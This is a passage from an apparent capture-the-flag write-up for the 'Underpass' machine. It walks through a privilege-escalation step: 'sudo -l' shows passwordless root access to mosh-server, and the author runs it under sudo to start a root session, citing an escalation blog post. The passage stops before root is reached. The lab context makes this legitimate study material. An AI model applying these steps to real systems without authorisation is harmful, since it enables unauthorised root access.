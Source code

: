 With `sudo -l` lists all the commands the current user can execute as root.
```
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

Seems it's pretty clear that we have to use the **mosh-server** script, so let's take a look.
First of all, it's a compiled executable, so we won't get many information with a `cat` command.
```
svcMosh@underpass:~$ file /usr/bin/mosh-server
/usr/bin/mosh-server: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=26b56b88e14ea6edca803fb0309a81ed06a7e970, for GNU/Linux 3.2.0, stripped
```

Seems to be a remote administration shell:
https://mosh.org/

```
svcMosh@underpass:~$ /usr/bin/mosh-server


MOSH CONNECT 60001 a443PcoeMQj3OkRBxUA6gA

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3397]
svcMosh@underpass:~$ /usr/bin/mosh-server -h
Usage: /usr/bin/mosh-server new [-s] [-v] [-i LOCALADDR] [-p PORT[:PORT2]] [-c COLORS] [-l NAME=VALUE] [-- COMMAND...]
```

With a quick search I find this blog that explains how to escalate privileges with mosh: https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246

So, first of all we need to execute mosh with sudo on the machine:
```
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 iNDE++OhTu7WvN3Xz4UtKg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 4411]
```
